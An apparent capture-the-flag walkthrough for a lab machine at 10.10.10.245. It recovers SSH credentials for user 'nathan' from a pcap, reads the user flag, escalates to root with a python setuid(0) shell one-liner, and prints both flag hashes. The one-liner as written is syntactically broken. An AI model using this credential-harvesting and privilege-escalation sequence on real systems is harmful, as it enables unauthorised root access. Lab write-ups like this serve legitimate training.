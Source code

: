 10.10.10.245/data/0 -> 0.pcap
=> user=nathan pwd=Buck3tH4TF0RM3!
=> ssh nathan@10.10.10.245 -> Buck3tH4TF0RM3!
=> cat user.txt
e021b8095321ceb6e42115834fb6e478
=> cd /
=> python3 -c 'import os, os.setuid(0), os.system("/bin/sh")'
=> whoami -> root
=> cat root/root.txt
ca6e7018ce4cac7f53fb881b6c8edd43
